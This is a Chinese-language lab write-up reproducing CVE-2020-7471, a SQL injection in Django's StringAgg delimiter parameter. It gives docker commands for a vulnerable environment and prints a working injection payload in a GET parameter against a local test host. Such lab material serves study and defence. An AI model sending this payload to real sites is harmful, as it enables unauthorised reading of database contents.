


# Django StringAgg SQL注入漏洞（CVE-2020-7471）

Django在2020年2月3日发布了一个安全更新，修复了在StringAgg函数中存在的SQL注入漏洞。

参考链接：

- https://www.djangoproject.com/weblog/2020/feb/03/security-releases/

该漏洞需要开发者使用了StringAgg聚合函数，用户可控其delimiter参数进行查询时，在其位置注入SQL语句。

## 漏洞环境

执行如下命令编译及启动一个存在漏洞的Django 2.2.3：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8000`看到一个页面。这个页面使用了Postgresql数据库的StringAgg函数来根据用户输入的连接符聚合新闻，比如使用`http://your-ip:8000/?d=-`即可得到根据连接符“-”聚合数据的结果：



## 漏洞复现

修改GET参数`d=-') AS "group" FROM "vuln_collection" GROUP BY "vuln_collection"."id" LIMIT 1--`提交，其中`vuln_collection`是`vuln`应用下的模型`Collection`

`http://127.0.0.1:8000/?d=-') AS "group" FROM "vuln_collection" GROUP BY "vuln_collection"."id" LIMIT 1--`

成功注入SQL语句并获得信息：


